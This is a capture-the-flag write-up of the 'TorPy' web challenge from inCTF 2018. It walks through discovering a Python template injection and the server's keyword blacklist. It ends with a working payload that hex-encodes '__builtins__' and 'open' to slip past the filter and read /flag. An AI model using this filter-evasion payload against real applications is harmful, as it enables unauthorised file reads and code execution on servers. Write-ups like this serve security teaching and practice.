 # TorPy

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/13.png)

Only 17/306=5% of the teams solved this one. We were the second team to solve this one.

## Reconnaissance

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/14.png)

Okay we see a interesting name in a comment.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/15.png)

Okay we can inject stuff. This is probably a template injection.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/17.png)

It calculates 1*2=2. So this is how we run code on the server.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/18.png)

Not allowed to have multiple {{}}, only one.

## Blacklisted
```python
__class__
subprocesses
os
import
builtins
eval
file
getattr
[]
for
if
open
_tt_append
```
## Whitelisted, probably useful
```python
locals
;
globals
while
dir
==
bool
__getitem__
base
```

### Attack

Our goal is to run the below code. But we cant use [] or builtins:
```python
globals()["__builtins__"].open("/flag").read()
```

The following python methods were the key to solving this challenge. The difference between this and the file upload challenge is that in this one, we can't use [].

* `__getitem__`
* `bytes.fromhex`
* `globals()`

As we could convert stuff from hex to ascii we can type anything we want basically.

```
5f5f6275696c74696e735f5f => __builtins__
6f70656e => open
```

And now we just create our payload:
```python
?name={{globals().__getitem__(bytes.fromhex(%275f5f6275696c74696e735f5f%27).decode(%27utf-8%27)).__getitem__(bytes.fromhex(%276f70656e%27).decode(%27utf-8%27))(%22/flag%22,%20%22r%22).read()}}
```

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/16.png)
